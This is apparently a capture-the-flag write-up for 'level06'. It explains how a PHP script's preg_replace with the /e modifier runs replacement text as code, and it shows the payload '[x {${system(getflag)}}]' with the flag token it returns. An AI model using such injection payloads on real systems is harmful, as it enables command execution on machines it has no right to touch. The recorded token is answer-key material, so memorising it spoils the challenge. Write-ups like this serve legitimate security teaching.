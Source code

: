 # level06

## TL;DR

```bash
~$ echo "[x {\${system(getflag)}}]" > /tmp/file
~$ ./level06 /tmp/file
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

## Explanation

```bash
~$ ls
level06  level06.php
```

`level06` is an executable, it does some uid & gid magic, then launches `level06.php`.

`level06.php`:

```php
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

> Setting the e regex modifier will cause PHP to execute the replacement value as code

```bash
~$ echo "[x {\${system(getflag)}}]" > /tmp/file
~$ ./level06 /tmp/file
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

